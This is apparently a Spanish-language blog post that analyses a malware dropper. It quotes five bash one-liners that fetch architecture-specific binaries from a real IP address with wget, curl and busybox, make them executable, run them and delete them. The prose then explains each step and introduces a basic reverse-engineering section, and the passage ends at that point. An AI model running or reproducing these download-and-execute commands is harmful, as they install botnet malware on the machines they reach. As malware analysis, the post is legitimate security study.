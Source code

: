 ```bash
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://37.44.238.92/bins/tCV5vO5tw9z8XJnNLCPzh9rWcP75X3gc4G; curl -O  http://37.44.238.92/bins/tCV5vO5tw9z8XJnNLCPzh9rWcP75X3gc4G;/bin/busybox wget http://37.44.238.92/bins/tCV5vO5tw9z8XJnNLCPzh9rWcP75X3gc4G; chmod 777 tCV5vO5tw9z8XJnNLCPzh9rWcP75X3gc4G; ./tCV5vO5tw9z8XJnNLCPzh9rWcP75X3gc4G;rm tCV5vO5tw9z8XJnNLCPzh9rWcP75X3gc4G ##sh4

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://37.44.238.92/bins/59fT4e3UEmL9oGFEi4nhEPDL9v4liwzVzv; curl -O  http://37.44.238.92/bins/59fT4e3UEmL9oGFEi4nhEPDL9v4liwzVzv;/bin/busybox wget http://37.44.238.92/bins/59fT4e3UEmL9oGFEi4nhEPDL9v4liwzVzv; chmod 777 59fT4e3UEmL9oGFEi4nhEPDL9v4liwzVzv; ./59fT4e3UEmL9oGFEi4nhEPDL9v4liwzVzv;rm 59fT4e3UEmL9oGFEi4nhEPDL9v4liwzVzv ##m68k

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://37.44.238.92/bins/l8bIo6MX0E2xzUa8GlxxB3QQT28nJjEe7E; curl -O  http://37.44.238.92/bins/l8bIo6MX0E2xzUa8GlxxB3QQT28nJjEe7E;/bin/busybox wget http://37.44.238.92/bins/l8bIo6MX0E2xzUa8GlxxB3QQT28nJjEe7E; chmod 777 l8bIo6MX0E2xzUa8GlxxB3QQT28nJjEe7E; ./l8bIo6MX0E2xzUa8GlxxB3QQT28nJjEe7E;rm l8bIo6MX0E2xzUa8GlxxB3QQT28nJjEe7E ##i686

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://37.44.238.92/bins/kcZ7wDS9Ey1472EBe1Yh1UdgSWJCDpmXmX; curl -O  http://37.44.238.92/bins/kcZ7wDS9Ey1472EBe1Yh1UdgSWJCDpmXmX;/bin/busybox wget http://37.44.238.92/bins/kcZ7wDS9Ey1472EBe1Yh1UdgSWJCDpmXmX; chmod 777 kcZ7wDS9Ey1472EBe1Yh1UdgSWJCDpmXmX; ./kcZ7wDS9Ey1472EBe1Yh1UdgSWJCDpmXmX;rm kcZ7wDS9Ey1472EBe1Yh1UdgSWJCDpmXmX ##armv5l

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://37.44.238.92/bins/z9GdbmiPoT1CYXtsXr4DYxGfZQoAwH2Upr; curl -O  http://37.44.238.92/bins/z9GdbmiPoT1CYXtsXr4DYxGfZQoAwH2Upr;/bin/busybox wget http://37.44.238.92/bins/z9GdbmiPoT1CYXtsXr4DYxGfZQoAwH2Upr; chmod 777 z9GdbmiPoT1CYXtsXr4DYxGfZQoAwH2Upr; ./z9GdbmiPoT1CYXtsXr4DYxGfZQoAwH2Upr;rm z9GdbmiPoT1CYXtsXr4DYxGfZQoAwH2Upr ##armv6l
```

Este script tiene un comportamiento bastante claro: intenta descargar y ejecutar un binario dependiendo de la arquitectura del sistema. Básicamente, lo que hace es:

1. **"""""Detectar"""""" la arquitectura del sistema**: A partir de la IP y el comando de descarga (`wget`, `curl`), se descargan binarios específicos para distintas arquitecturas (MIPS, x86, ARM, PowerPC, etc.).

2. **Dar permisos de ejecución**: Después de descargar el archivo, le otorgan permisos de ejecución usando `chmod 777`.

3. **Ejecutar el binario descargado**: Tras asegurarse de que el binario tiene permisos, lo ejecutan (`./<binario>`).

4. **Eliminar el archivo**: Una vez que el binario ha sido ejecutado, el script borra el archivo descargado con `rm`, eliminando cualquier rastro de su presencia en el sistema.

En mi caso, estoy usando una Raspberry Pi con arquitectura **aarch64**, la busque en el Script y la misma no estaba.

Como aún me sigue picando más la curiosidad, busqué el binario para otra arquitectura en este caso para  la x86_64, me lo descargué para tratar de hacerle un poco de Reversing. Quiero destacar que el Cibercriminal que hizo este Malware ni se molesto en comprobar la arquitectura correcta para instalar el binario/Malware correcto, simplemente se limito a "Tirar a matar". 

## Ingeniera inversa básica al Malware


_**[ ! ] Este es un análisis básico.**_
